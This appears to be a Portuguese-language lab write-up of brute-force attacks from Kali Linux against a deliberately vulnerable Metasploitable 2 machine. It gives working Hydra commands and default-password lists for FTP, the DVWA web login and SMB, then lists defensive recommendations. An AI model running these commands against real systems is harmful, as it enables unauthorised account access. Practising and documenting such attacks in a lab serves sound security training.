

# Laboratório de Ataques de Força Bruta

Prática de exploração de vulnerabilidade de força bruta em serviços variados, realizada em ambiente controlado e autorizado.

## Preparação e Validação do Ambiente

### 1. Identificação dos Endereços IP
Primeiramente, verificou-se a configuração de rede das máquinas envolvidas:

**Máquina Atacante (Kali Linux):**

ifconfig  
Interface: eth0  
IP: 192.168.56.102  
Máscara: 255.255.255.0  

**Máquina Alvo (Metasploitable 2):**
ifconfig  
Interface: eth0  
IP: 192.168.56.101  
Máscara: 255.255.255.0  
Evidência:

**Teste de Conectividade — PING**

Confirmou-se que a comunicação entre as máquinas está ativa e estável:  
ping -c 3 192.168.56.101  
Evidência:  

**Varredura de Portas e Serviços — Nmap**

Identificação dos serviços expostos no alvo:  
sudo nmap -sV 192.168.56.101  
Evidência:

**Detalhamento dos Cenários**

## Cenário 1 — Serviço FTP  
Alvo: 192.168.56.101:21  
Ferramenta: Hydra  
Comando:  
echo -e "123456\nmsfadmin\nadmin\npassword" > ftp_pass.txt  
hydra -l msfadmin -P ftp_pass.txt 192.168.56.101 ftp -vV  
Evidência:  

## Cenário 2 — Formulário Web (DVWA)

Alvo: http://192.168.56.101/dvwa/vulnerabilities/brute/  
Nível de Segurança: Low  
Ferramenta: Hydra  
Comando:  
echo -e "123456\nadmin\ntest\npassword" > dvwa_pass.txt  
hydra -l admin -p teste123 192.168.56.101 http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\: PHPSESSID=SEU_COOKIE; security=low:F=Username and/or password incorrect." -t 1 -V  
Evidência:

## Cenário 3 — Serviço SMB

Alvo: 192.168.56.101:445  
Ferramenta: Hydra  
Comando:  
echo -e "123456\nmsfadmin\nadmin\npassword" > smb_pass.txt  
hydra -l msfadmin -P smb_pass.txt 192.168.56.101 smb -vV  
Evidência:

## Todos os serviços testados apresentaram-se vulneráveis a ataques de força bruta pelos seguintes fatores combinados:  
Uso de credenciais padrão — contas e senhas de fábrica não foram alteradas  
Ausência de mecanismos de proteção — não há bloqueio de conta, limite de tentativas ou atraso entre falhas  
Serviços desnecessários ativos — exposição de FTP e SMB sem restrição de acesso  
Nível de segurança reduzido — DVWA configurado em modo "Low", sem validação adicional**  

## Recomendações de Segurança:  
- Troca imediata de todas as senhas padrão  
- Implementação de bloqueio de conta após 3 a 5 falhas consecutivas  
- Limitação de requisições (rate limiting) em serviços HTTP  
- Uso de autenticação multifator (MFA)  
- Desativação de serviços não essenciais  
- Restrição de acesso por IP a serviços administrativos  

